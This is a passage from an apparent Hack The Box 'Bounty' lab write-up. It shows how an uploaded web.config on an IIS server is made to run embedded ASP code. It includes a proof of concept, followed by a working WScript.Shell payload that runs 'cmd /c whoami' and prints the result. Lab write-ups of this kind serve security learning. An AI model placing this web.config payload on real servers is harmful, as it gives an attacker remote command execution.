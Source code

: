 ```xml
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

![image](/assets/img/post/htb/bounty/07.png)

![image](/assets/img/post/htb/bounty/08.png)

When we visite the page `http://10.10.10.93/UploadedFiles/web.config` on our browser, we can see the number 3 that was calculation from `Response.write(1+2)` this part of the script. 

![image](/assets/img/post/htb/bounty/09.png)

Next, let's update the POC script a bit to see if we can execuate any OS command.

```xml
<!-- ASP code comes here
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
-->
```
